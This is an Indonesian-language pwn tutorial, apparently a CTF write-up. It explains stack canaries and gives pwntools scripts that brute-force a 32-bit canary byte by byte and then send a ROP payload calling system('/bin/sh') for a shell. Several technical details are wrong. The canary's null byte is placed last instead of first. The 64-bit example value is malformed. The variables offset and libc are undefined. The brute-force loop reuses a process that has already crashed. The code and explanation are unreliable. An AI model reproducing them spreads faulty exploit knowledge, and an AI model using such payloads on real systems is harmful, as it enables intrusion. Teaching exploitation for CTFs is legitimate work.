 ```yaml
---
title: Bypass Stack Canary - Pwn03
date: 2025-08-19
Tags: ["Pwn"]
---
```




## **1. Apa Itu Bit dan Byte?**  
Sebelum memahami **stack canary**, kita perlu mengerti dasar-dasar **bit** dan **byte**:  

- **1 Bit** = Nilai terkecil dalam komputasi (`0` atau `1`).  
- **1 Byte** = Kumpulan **8 bit** (contoh: `01011010`).  
  - **1 Byte bisa menyimpan nilai dari `0` sampai `255`** (total **256 kemungkinan**).  
  - Kenapa **256**? Karena `2^8 = 256` (8 bit = 256 kombinasi).  

Contoh:  
- `00000000` (binary) = `0` (decimal)  
- `11111111` (binary) = `255` (decimal)  

**Kesimpulan:**  
- **1 Byte = 8 Bit = Nilai 0-255 (total 256 kemungkinan).**  
- **Nilai 256 dipakai karena itu batas maksimal 1 byte.**  

---

## **2. Apa Itu Stack Canary?**  
**Stack Canary** adalah nilai rahasia (random) di stack yang berfungsi seperti "alarm" untuk mendeteksi **buffer overflow**.  

- **Ukuran Canary:**  
  - **32-bit program** → Canary = **4 byte** (contoh: `0xefbead00`)  
  - **64-bit program** → Canary = **8 byte** (contoh: `0xdeadbeefcafeb00`)  

- **Cara Kerja:**  
  - Jika ada **buffer overflow**, canary akan **tertimpa** sebelum return address.  
  - Sebelum fungsi selesai (`ret`), program mengecek apakah canary masih utuh.  
  - Jika **berubah** → Program crash (`*** stack smashing detected ***`).  

---

## **3. Kenapa Brute-Force Canary Menggunakan `range(256)`?**  
Karena **setiap byte canary bisa bernilai `0` sampai `255` (total 256 kemungkinan)**, kita perlu mencoba semua kemungkinan byte tersebut.  

### **Contoh Brute-Force Canary (32-bit)**
```python
from pwn import *

p = process("./binary32")  # Program 32-bit (canary 4 byte)

canary = b""  # Inisialisasi canary kosong

# Brute-force 3 byte pertama (byte ke-4 = \x00)
for i in range(3):  # 3 byte pertama
    for byte in range(256):  # Coba semua nilai byte (0-255)
        payload = b"A"*offset + canary + bytes([byte])
        p.sendline(payload)
        if b"stack smashing" not in p.recv():  # Jika tidak crash, byte benar
            canary += bytes([byte])  # Tambahkan byte yang benar
            print(f"Found byte {i+1}: {hex(byte)}")
            break

canary += b"\x00"  # Tambahkan null byte terakhir (byte ke-4)
print(f"Full canary: {hex(u32(canary))}")  # Output: 0xefbead00 (misal)
```

### **Penjelasan Kode:**  
1. **`for byte in range(256)`**  
   - Mencoba **semua nilai byte (0-255)** untuk menemukan byte yang benar.  
2. **`bytes([byte])`**  
   - Mengubah angka (misal `255`) menjadi byte (`\xff`).  
3. **`canary += b"\x00"`**  
   - Byte terakhir canary biasanya `\x00` (null byte), jadi tidak perlu ditebak.  

---

## **4. Penerapan Brute-Force Canary dalam Exploit**  
Setelah dapat **canary**, kita bisa lanjutkan eksploitasi dengan **Return-Oriented Programming (ROP)** atau **Ret2Libc**.  

### **Contoh Payload Setelah Dapat Canary (32-bit)**
```python
from pwn import *

p = process("./binary32")
offset = 64  # Ganti dengan offset yang benar
canary = b"\xef\xbe\xad\x00"  # Canary yang sudah ditemukan

# ROP chain untuk call system("/bin/sh")
rop = ROP("./binary32")
rop.call("system", [next(libc.search(b"/bin/sh"))])

payload = (
    b"A" * offset +  # Isi buffer
    canary +         # Canary yang benar
    b"B" * 12 +      # Padding (EBP & alignment)
    rop.chain()      # ROP chain
)

p.sendline(payload)
p.interactive()  # Dapat shell!
```

---

## **5. Kesimpulan**  
- **1 Byte = 8 Bit = Nilai 0-255 (256 kemungkinan).**  
- **Brute-force canary** = Mencoba semua kemungkinan byte (`0-255`) untuk menemukan nilai canary.  
- **32-bit canary** = 4 byte (3 byte ditebak, 1 byte null).  
- **64-bit canary** = 8 byte (7 byte ditebak, 1 byte null).  
- **Setelah dapat canary**, lanjutkan dengan **ROP/Ret2Libc** untuk bypass NX.  

Dengan memahami **bit, byte, dan nilai 256**, kita bisa melakukan **brute-force canary** untuk mengeksploitasi **buffer overflow**! 🚀  
